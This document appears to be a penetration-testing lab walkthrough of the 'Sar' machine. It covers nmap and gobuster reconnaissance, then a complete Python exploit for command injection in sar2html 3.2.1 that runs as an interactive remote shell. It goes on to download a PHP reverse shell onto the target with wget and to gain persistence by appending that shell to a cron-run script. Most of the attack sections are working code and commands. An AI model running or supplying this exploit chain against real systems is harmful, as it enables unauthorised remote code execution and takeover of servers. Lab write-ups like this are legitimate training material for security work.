

# Sar

# 1 Information gathering
## 1.1 Discovery host
`nmap -Pn -F 192.168.196.1/24 -oN host_discovery.txt`



## 1.2 Service enum
`nmap -sV -sC -p- 192.168.196.131 -oN full_service_enum-sC.txt`


`nmap -sV -sU -F  -oN udp-sC-sV.txt`


## 1.3 Web
### 1.3.1 Gobuster
`gobuster dir -u http://192.168.196.131 -w /usr/share/dirbuster/wordlists/directory-list-1.0.txt -f -x php,bkp,bak,txt,html,aspx -o info.txt`

### 1.3.2 Robots.txt and Sar2html


For this app there are public exploits, but let's code it.

# 2 Exploitation (Testing for Command Injection - WSTG-INPV-12)
## 2.2 Coded exploit to gain RCE
Firts we should know what point of the source code is vulnerable:


The variable `plot` receive as GET method and concatenated into php vulnerable exec function. The argument for this command must be sanitized

Code:
```
# Script para php command injection - sar2html Ver 3.2.1 - byth22
#!/usr/bin/env python2.7
# -*- coding: utf-8 -*-
import requests
import re


def command_(command):
    #target = "https://192.168.196.131"
    target = ""
    
    cookies = {
        'PHPSESSID': '',
    }

    headers = {
        'Host': '192.168.196.131',
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
        'Accept-Language': 'en-US,en;q=0.5',
        'Accept-Encoding': 'gzip, deflate',
        'Connection': 'close',
        'Upgrade-Insecure-Requests': '1',
        'Cache-Control': 'max-age=0',
    }

    params = (
    ('plot', ';'+command),
    )

    try:
        response = requests.get(target+'/sar2HTML/index.php', headers=headers, params=params, cookies=cookies, verify=False)
    except:
        print ("Connection error!")
    
    try:
        receive = re.findall("<option value=(.*?)>", response.text)
    except:
        print ("Error!")
    
    for i in receive:
	    if "There is no defined host..." not in i:
		    if "null selected" not in i:
		        if "selected" not in i:
		            print (i)
def main():
    while True:
        command = raw_input("[+] Shell ->:  ")
        command_(command)


main()
```


## 2.2 PHP Reverse shell
https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

Download and edit the php reverse shell for point your ip and port.

`python3 -m http.server 8090` <- on the platform

`wget http://192.168.196.121:8090/php-reverse-shell.php` <- on the target for rev shell download

Now you might execute it:


# 3 Post-exploitation (crontab abuse)
LinEnum.sh reveals some good information:


Let's edit write.sh file to gain shell:

`python3 -m http.server 8090` <- on the kali

`wget http://192.168.196.121:8090/php-reverse-shell.php` <- on the target

`echo "php ./php-reverse-shell.php" >> write.sh` <- on the target

